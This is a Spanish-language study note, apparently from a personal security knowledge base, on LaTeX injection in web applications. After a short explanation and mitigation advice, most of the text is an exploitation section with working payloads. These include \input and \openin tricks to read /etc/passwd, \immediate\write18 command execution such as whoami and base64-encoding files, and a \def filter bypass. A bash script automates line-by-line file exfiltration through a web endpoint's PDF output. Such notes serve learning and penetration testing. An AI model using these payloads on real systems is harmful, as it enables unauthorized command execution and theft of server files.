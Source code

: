 -----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es **LaTeX** ?

### **LaTeX** es un sistema de composición de textos, orientado a la creación de documentos escritos que presenten una alta calidad tipográfica. Esta formado mayoritariamente por órdenes construidas a partir de comandos de **TeX** pero con la ventaja de **poder aumentar las capacidades** de  **LaTeX** utilizando comandos propios de **TeX** .

----

# ¿ Que son las **LaTeX Injections** ? 

### Las **inyecciones LaTeX** son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar **texto formateado** en **LaTeX**. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

### Estos ataques ocurren cuando un atacante **ingresa código LaTeX malicioso** en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para **aprovechar vulnerabilidades** en la aplicación conseguir una [[RCE - (Remote Command Execution)]]. 

### Un ejemplo podría ser un atacante qeu aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red. 

-----

#  Evitar estos ataques 

### Para evitar las **inyecciones LaTeX**, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

### También es importate que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitorees regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el use de LaTeX y cómo evitar la introducción de código malicioso.

---

# Explotación 

### En la explotación de LaTeX, existen varias inyecciónes las cuales se pueden ver ([Inyecciones de LaTeX](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection), [más inyecciones en otra página](https://salmonsec.com/cheatsheet/latex_injection)). 

## Read file 

### `\input{/etc/passwd}` Esto aveces puede entrar en conflicto devido a los caracteres

### Por lo que podriamos hacer uso de este input para leer archivos y haciendo uso `\immediate\write18{command}` para hacer algo como lo sig. 

### `\immediate\write18{cat /etc/passwd | base64 > output}`
### `\input{output}

###  Otras inyecciones sirven para leer unicamente arcivos .tex:

### `\include{somefile} # load .tex file (somefile.tex)`

### Tambien podriamos leer línea por línea:

### Para ver la primera línea de un archivo: 

### `\newread\file`
### `\openin\file=/etc/passwd`
### `\read\file to\line`
### `\text{\line}`
### `\closein\file`

### Para ver la segunda: 

### `\newread\file`
### `\openin\file=/etc/passwd`
### `\read\file to\line`
### `\read\file to\line`
### `\text{\line}`
### `\closein\file`

### Y así sucesivamente para ver más lineas agregando el `\read\file to\line`

### Si bien podriamos intentar leer multiples líneas de LaTeX, hay veces que por determinados carácteres no se logran visualizar, por lo que podriamos tener un error, en ese caso seria más optimo crear un script en bash para lograr esto mismo. 

### Ejemplo de script:

```shell
#!/bin/bash 
 
# Global Vars 

declare -r url="http://localhost/ajax.php" # Declaramos una variable unicamente de "lecutar" para evitar ocupar mucho espacio
filename=$1

if [ $filename ]; then
	line="%0A\read\file%20to\line"
  for i in $(seq 1 100);do 

	file_to_download=$(curl -s -X POST $url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$line%0A\text{\line}%0A\closein\file&template=blank" | /usr/bin/grep -i download | /usr/bin/awk 'NF{print $NF}')
  
	if [ $file_to_download ]; then 
	  wget $file_to_download &>/dev/null 
  
	  file_to_convert=$(echo $file_to_download | /usr/bin/tr '/' ' ' | /usr/bin/awk 'NF{print $NF}')
	  /usr/bin/pdftotext $file_to_convert 
  
	  file_to_read=$(echo $file_to_convert | /usr/bin/sed 's/\.pdf/\.txt/')
	  rm $file_to_convert 
	  /usr/bin/cat $file_to_read | /usr/bin/head -n 1
	  rm $file_to_read
	  line+="%0A\read\file%20to\line"
	else 
	  line+="%0A\read\file%20to\line"
	fi
  done 
else 
  echo -e "\n\n\t[!] Usage: $0 /etc/passwd\n\n"
fi 
```

### Tambíen podriamos intentar ejecutar comandos 

### `\immediate\write18{whoami}`

### O ejecutar un comando y leer el output que es guardado en un archivo: 

### `\immediate\write18{whoami > output}`
### `\newread\file`
### `\openin\file=output
### `\read\file to\line`
### `\read\file to\line`
### `\text{\line}`
### `\closein\file`

### Y para burlar algunas reinstricciones se podria hacer uso de la definición de "variables": 

### `\def\first{in}
### `\def\second{put}`

----

### `\newread\file \openin\file=/etc/passwd \read\file to\line \text{\line} \closein\file $\lstinputlisting{/etc/passwd}$`
